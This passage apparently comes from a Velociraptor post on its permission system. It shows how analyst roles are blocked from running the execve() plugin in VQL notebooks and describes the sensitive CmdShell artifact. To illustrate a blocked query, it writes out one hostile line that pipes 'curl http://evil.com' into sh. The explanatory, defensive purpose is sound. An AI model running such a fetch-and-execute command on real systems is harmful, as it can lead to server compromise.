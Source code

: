 It is a perfectly valid post processing query and should be allowed, even inside the notebook, by any analyst.

However the query

```
 SELECT * FROM execve(argv=[“bash”, “-c”, “curl [http://evil.com](http://evil.com) | sh”])
```

Is clearly a malicious query and should be blocked from the notebook (It can result in server compromise).

Velociraptor solves this by introducing a permission system. Each VQL plugin requires the caller to possess a particular permission. For example, the execve() plugin required the EXECVE permission (i.e. being allowed to run arbitrary shell commands). If the user does not have the permission, the plugin fails with an error.

Let’s look at this example more closely. I will create a user called “analystbob” and assign them the **analyst** role:

![](../img/1KzOsl3TZ2oztzDQF-c4APw.png)

Bob is allowed to view and edit notebooks using the GUI since Bob is an analyst. Let’s see Bob creating a new notebook

![](../img/1Dri1UPuqRLnhmadSP5f-jQ.png)

Bob can even issue VQL queries for post processing and filtering of collected data. However, what happens if they try to issue the malicious VQL above within a VQL notebook cell?

![](../img/1qOUD4kX7OGj9rlrM84y21A.png)

![](../img/1AkJUHE0jH9m5ckmwxkG2aQ.png)

Bob’s query returned no rows since the execve() plugin refused to run without the EXECVE permission, which Bob lacks.

Let’s see Bob browsing the Virtual Filesystem of an endpoint

![](../img/1QkdlX3Ubyb_eQhvDLnko5Q.png)

The rest of the GUI does not allow Bob to actually collect any new data — for example the VFS view does not allow collecting new directory listing or new files (but Bob can still navigate already collected directories).

If Bob wants to collect new artifacts or perform new hunts, he will need to ask **investigatoralice** who has the **investigator** role to actually collect those. Similarly, if Bob wants to modify or implement a new artifact they will need to **sue** who has the **artifact_writer** role to be able to add the artifacts for him (Once the artifact is added, alice can now collect it — she just can’t add it herself).

### Artifact permissions

Some artifacts are more sensitive than others. For example, the **Windows.System.CmdShell** artifact implements the interactive shell feature. It allows arbitrary commands to be executed by the command shell on the endpoint — a very powerful artifact indeed.
